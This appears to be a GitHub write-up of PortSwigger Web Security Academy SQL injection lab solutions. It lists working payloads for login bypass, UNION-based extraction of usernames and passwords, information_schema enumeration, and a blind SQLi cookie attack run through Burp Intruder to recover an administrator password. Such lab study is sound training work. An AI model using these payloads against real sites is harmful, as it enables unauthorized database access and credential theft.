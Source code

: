 # SQL Injection LAbs
=====================================================================================
## APPRENTICE
=====================================================================================

-------------------------------------------------------------------------------------
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
-------------------------------------------------------------------------------------
SQL vuln in the address bar.
Payload →
```
web-security-academy.net/filter?category=Gifts' OR 1=1 --
```
-------------------------------------------------------------------------------------
### SQL injection vulnerability allowing login bypass
-------------------------------------------------------------------------------------

- The SQL injection vuln in the username field can be detected by entering a single coma (’) into it which produces a server side error on the application.
- This error is because we have disturbed the functionality of the sql query.

Payload →

Enter administrator’-- in the username filed and any random password.



Alternatevely, you can use burpsuit to intercept the request as well.
=====================================================================================
## PRACTITIONER  
=====================================================================================

-------------------------------------------------------------------------------------
### SQL injection UNION attack, determining the number of columns returned by the query
-------------------------------------------------------------------------------------

There is a chance of SQL Union injection in the url as the application is rendering a table of information which is probalby from a particular table in the db.

For SQL Union attack, the correct number of entries being requested in the orignal query is to be determined by the trial and error method which in this case is 3.
```
web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20NULL,NULL,NULL--
```
-------------------------------------------------------------------------------------
### SQL injection UNION attack, finding a column containing text
-------------------------------------------------------------------------------------

Hit and trial to find the number of columns in the default query.
![image](https://github.com/coder-de-coder/portswigger-academy-solutions/assets/108211570/27b99d53-31d9-4f6d-87de-130f15dc6258)

(BurpSuit ScreenShot shows that we hit the target with 3 NULLs)

Now try replacing each NULL one by one with the given random string in the lab using single quotes.

Payload =>
```
web-security-academy.net/filter?category=Accessories+UNION+SELECT+NULL,{Your string},NULL--
```
-------------------------------------------------------------------------------------
### SQL injection UNION attack, retrieving data from other tables
Payload ->
```web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+username,+password+FROM+users--
```
-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------
### SQL injection UNION attack, retrieving multiple values in a single column
It can be tested that though the default query is fetching two columns but the first one cant be used as it is not of string type.

Now that we have only one entry to retrive two columns from the users table, we can use the CONCAT({query1}, {query2}) functionality of MySQL.

Payload ->
```
web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+NULL,+CONCAT(username,password)+FROM+users--
```
-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------
### SQL injection attack, listing the database contents on non-Oracle databases
First find out the number of columns being queried in the orignal req but using the follwoing payload (2 in this case).
```
'+union+select+null,null--
```
 Every SQL database has an information schema that contains the list of tables. Use the following payload to retrive that list of tables.
 This search for user tables in that list.
 ```
 'union+select+column_name,+null+from+information_schema.tables--
  ```

 Now that you have found the exact name of the user table, use it to extract the exact column names out of it using the following payload
 ```
 '+union+select+column_names,+null+from+information_schema.columns+where+table_name="{user table name found in last step}" --
 ```

 After finding the column names, use those to extract the usernames and passwords from the same table.

-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------
### Blind SQL injection with conditional responses
- Capture the homepage req in burpsuit and send to ***repeater.***
- Observe the TrackingID cookie and test it for blind SQLi using the following paylload →
```
' AND '1'='1 
```

This shall render the term “Welcome back!” in the response and if the condition is changed to ‘1’=’2 , then it should not render the term. This confirms the presence of blind SQLi.

Now send the request to Intruder and use the following payload in the cookie section along with the same payload markers.
```
Cookie: TrackingId=0k9eqmdznTZaHkW7' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), §1§, 1) = '§a§;
```

- Use the intruder in cluster bomb mode (read its description to know why), and add two payload sets →
    - First one having the counts of 1 to 20 (this is the length of the password).
    - Second one having letters a to z & number 0 to 9.

Start the attack and wait for it to complete.
Now filter the results acc to character length.
There will be 20 such entries which will be longer than the rest of the result.
Open response tab from any of theese 20 and search for the keyword “Welcome Back”, to make sure theese are the desired entries.
Note the payload value corresponding to these 20 entries and arrange them to get the password for the administrator.


-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------